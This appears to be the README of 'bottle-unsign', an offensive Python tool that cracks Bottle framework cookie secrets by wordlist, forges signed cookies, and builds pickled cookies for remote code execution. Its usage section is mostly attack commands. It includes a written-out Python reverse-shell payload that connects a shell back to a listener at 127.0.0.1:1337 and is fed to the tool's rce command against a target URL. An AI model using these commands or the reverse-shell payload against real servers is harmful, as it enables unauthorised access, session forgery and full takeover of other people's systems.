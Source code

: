 # bottle-unsign

bottle-unsign is a Python tool for encoding, decoding, and performing dictionary attacks on bottle framework cookies.

## Features

- **Encode**: Encode a cookie using HMAC-based encryption with a specified key.
- **Decode**: Decode a cookie that was encoded using the same key.
- **Dictionary Attack**: Attempt to decode a cookie by testing multiple potential keys from a wordlist file.
- **Custom Encoding (RCE)**: Encode a cookie with a custom pickled object (RCE) for remote code execution.

## Installation

1. **Clone the repository:**

   ```bash
   git clone https://github.com/yourusername/bottle-unsign.git
   cd bottle-unsign
   ```

2. **Install dependencies:**

   ```bash
   pip3 install .
   ```

   This installs the required dependencies, including the `rich` library.

## Usage

### Encode a Cookie

```bash
bottle-unsign encode --cookie "('name', {'name': 'admin'})" --key your_secret
```

### Decode a Cookie

```bash
bottle-unsign decode --cookie '!wzE3YvpBN2Fixls6im4tdw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==' --key your_secret
```

### Dictionary Attack

```bash
bottle-unsign dict-attack --cookie '!wzE3YvpBN2Fixls6im4tdw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==' --wordlist path_to_wordlist.txt
```

- **`--cookie`**: Specify the cookie string to encode, decode, or attack.
- **`--key`**: Specify the secret key for encoding, decoding, or dictionary attack.
- **`--wordlist`**: Specify the path to a wordlist file containing potential keys for dictionary attack.

## Example

```bash
bottle-unsign dict-attack --cookie '!wzE3YvpBN2Fixls6im4tdw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==' --wordlist example_wordlist.txt
```

### Generate Malicious Pickled Object
```bash
PAYLOAD='python3 -c "import os,pty,socket;s=socket.socket();s.connect((\"127.0.0.1\",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")"'

bottle-unsign rce --cookie "('name', {'name': RCE()})" --key your_secret --cmd $PAYLOAD [--url] [--cookie-name]
```


## Contributing

Contributions are welcome! Please fork the repository and submit a pull request with your improvements.


## Acknowledgments

- This tool utilizes the `rich` library for colorful and interactive terminal output.
